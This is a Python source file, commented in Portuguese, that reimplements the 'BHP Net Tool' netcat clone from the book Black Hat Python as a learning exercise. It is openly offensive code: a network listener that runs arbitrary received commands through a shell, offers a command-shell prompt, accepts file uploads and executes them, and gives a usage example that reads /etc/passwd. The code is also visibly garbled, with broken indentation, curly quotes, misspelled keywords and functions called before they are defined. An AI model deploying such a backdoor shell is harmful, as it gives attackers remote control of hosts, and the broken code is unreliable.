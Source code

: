 # socket_netcat.py
Socket desenvolvido pelo aprendizado do livro Black Hat Python


#importando socket e funções

import sys, socket, getopt, threading, subprocess

#definindo algumas variaveis globais

listen = False
command = False
upload = False
execute = False
target = False
upload_destination = False
port = 0


def usage():
	print “BHP Net Tool”
	print
	print “Para usar: socket_netcat.py -t target_host -p port”
	print “- l --listen 	- listen on [host]:[port] para entrada de conexões”
	print “- e --execute=file_to_run -executa conexão”
	print “-c -- comand - inicia o comando shell”
	print “-u --upload=destination - recebe conexão upload [destination]”
	print	
	print
	print “Examples: “
	print “socket_netcat.py -t ip -p 5555 -l -c”
print “socket_netcat.py -t ip -p 5555 -l -u=c:\\target.exe”
print “socket_netcat.py -t ip -p 5555 -l -e=\ “cat /etc/passwd\”
print “echo ‘ABCDEFGH’ | ./socket_netcat.py -t ip ip 135”

def main():
	global listen
	global port
	global execute
	global command
	global upload_destination
	global target

	if not len(sys.argv[1:]):
		usage()

#lê as opções de linha de comando

#defiine variaveis integradas de acordo com opções detectadas.
try:

	opts, args = getopt.getop(sys.argv[1:],”hle:t:p:cu:”, [“help”, “listen”, “execute”, “target”, “port”, “command”, “upload”])
expect getopt.GetoptError as err:
	print str(err)
	usage()

for o,a in opts:
	if o in (“-h”, “--help”):
		usage()
	elif o in (“-l”, “--listen”):
		listen = True
	elif o in (“-e”, “--execute”):
		execute = a
	elif o in (“-c”, “--commandshell”):
		command = True
	elif o in (“-t”, “--target”):
		target = a
	elif o in (“-p”, “--port”):
		port = int(a)
	else:
		asserts False, “Unhandled Option”

# para ouvir ou enviar dados de stdin

if not listen and len(target) and port > 0:

	# ve o buffer da linha de comando
	# isso causará um bloqueio, envie CTRL -D
 	# enviando dados de entrada para stdin

	buffer = sys.stdin.read()

	#send data off
	client_sender(buffer)

	
	#ouviremos a porta
	# fazendo upload de dados, executando shell

	if listen:
		server_loop()

main()

 	# configurando socket para ouvir rede e carregar novos comandos

	def client_sender(buffer):

		client = socket.socket(socket.AF_INET, socket.SOCKET_STREAM)

		try:

			#conectando ao host alvo

			client.connect((target, port))

>>

		if  len(buffer):
			client.send(buffer)

		while True:

			data = client.recv(4096)
			recv_len = len(data)
			response+= data

			if recv_len < 4096:
				break

		print response,
		
		#espera mais dados de entrada
		
		buffer = raw_input(“”)
		buffer += “\n”

		# envia os dados

		client.send(buffer)

except:

	print “[*] Exception! Exiting.”

	# encerra a conexao
	
	client.close()

#vamos criar um laço principal do servidor, com função stub

def server_loop():

	global target

	# se nao tiver alvo definido, ouviremos todas as interfaces

	if not len(target):
		target = “0.0.0.0”

	server = socket.socket(socket.AF_INET, socket.SOCKET_STREAM)
	server.bind((target,port))
	server.listen(5)

	while True:

		client_socket, addr = server.accept()

		#dispara uma thread para cuidar do novo cliente
	
		client_thread = threading.Thread(target=client_handler, args=(client_socket,))
		client_thread.start()

def run_command(command):

		#remove a quebra de linha

		command = command.rstrip()
		
		#executa o comando e obtém os dados de saída

		try:

			output = subprocess.check_output(command, stderr=subprocess.STDOUT, shell=True)

		except:

			output = “Failed to execute command.\r\n”

	#envia os dados de saida de volta ao cliente

	return output

#implementando a logica para fazer upload de aquivos e executar comandos no shell

def client_handler(client_scoket):

	global upload	
	global execute
	global command
	
	#verifica se é upload
	if len(upload_destination):

		#le todos os bytes e grava no destino
		file_buffer = “ “

		#permanece lendo os dados ate que nao haja mais nenhum disponivel
		while True:
			data = client_socket.recv(1024)

			if not data:
				break
			else:
				file_buffer += data


		#para gravar esses bytes

		try:
			file_descriptor = open(upload_destination, “wb”)
			file_descriptor.write(file_buffer)
			file_descriptor.close()

			#confirma que gravou o arquivo
			client_socket.send(“Successfully saved file to %s\r\n” % upload_destination)

		except:
			client_socket.send(“Failed to save file to %s\r\n” % upload_destination)

		#verifica execucao de comando
		if len(execute):

			#executa o comando
			 output = run_command(execute)

			client_socket.send(output)

# entra em outro laço se um shell de comandos foi solicitado

if command:
	while True:
		#mostra um prompt simples
		client_socket.send(“<BHP:#> “)
			
			#recebe dados até ver o linefeed
			(tecla enter)
		cmd_buffer = “”
		while “\n” not in cmd_buffer:
			cmd_buffer += client_socket.recv(1024)

		#envia de volta a saída de comando
		response = run_command(cmd_buffer)
		
		#envia de volta a resposta
		client_socket.send(response)




